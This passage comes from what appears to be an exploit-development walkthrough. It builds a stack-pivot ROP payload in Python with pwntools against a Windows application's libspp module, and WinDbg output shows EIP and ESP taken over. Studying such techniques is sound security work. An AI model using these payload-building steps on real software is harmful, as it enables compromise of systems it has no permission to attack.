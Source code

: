 ```
0x10039f9e: add esp, 0x4e8; ret 0x18;
```

This is as close as I could I could get. Updating the script as follows the recrashing the application:
```
stack_pivot = 0x10039f9e #add esp, 0x4e8; ret 0x18;

body = b'A' * deref_off
body += b'B'* 4
body += b'C' * (eip_off - len(body))
#body += b'D' * 4
body += pwn.p32(stack_pivot)
```

Setting a breakpoint and running the application
```
0:007> bp 0x10039f9e
0:007> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=10039f9e esp=02cbf560 ebp=02cbf580 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!SCA_ClsReporter::operator=+0x970e:
10039f9e 81c4e8040000    add     esp,4E8h
0:007> t
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=10039fa4 esp=02cbfa48 ebp=02cbf580 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
libspp!SCA_ClsReporter::operator=+0x9714:
10039fa4 c21800          ret     18h
0:007> 
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=41414141 esp=02cbfa64 ebp=02cbf580 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
41414141 ??              ???
0:007> dd @esp
02cbfa64  43434343 43434343 43434343 43434343
02cbfa74  43434343 43434343 43434343 43434343
02cbfa84  43434343 43434343 10039f9e 45454545
02cbfa94  45454545 45454545 45454545 45454545
02cbfaa4  45454545 45454545 45454545 45454545
02cbfab4  45454545 45454545 45454545 45454545
02cbfac4  45454545 45454545 45454545 45454545
02cbfad4  45454545 45454545 45454545 45454545
```

This shows a few things, the first being that we need to include a ropnop at `0x02cbfa48` instead of `AAAA`, and that we now control `esp`!

Instead of doing a ropnop it would be a good idea to realign the stack. So we need a gadget that will inc esp by `2 + 4N` 
```
0x10094a53: add esp, 0xc; ret;
```
